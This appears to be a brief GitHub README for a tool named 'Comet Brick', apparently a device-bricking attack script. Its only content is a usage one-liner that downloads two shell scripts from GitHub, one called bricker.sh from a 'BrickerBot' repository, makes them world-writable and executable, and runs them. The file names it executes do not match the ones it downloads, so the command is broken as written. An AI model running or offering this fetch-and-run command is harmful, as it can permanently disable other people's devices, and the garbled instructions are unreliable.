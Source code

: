 # Comet Brick

## How2Use

    $ wget https://raw.githubusercontent.com/freeis1337/cometbrick/main/char_for_brick.bash; wget https://raw.githubusercontent.com/freeis1337/BrickerBot/main/bricker.sh; chmod 777 bricker.sh; chmod +x bricker.sh; chmod 777 char_for_brick.bash; chmod +x char_for_brick.bash; bash chars.bash || bash brick.sh
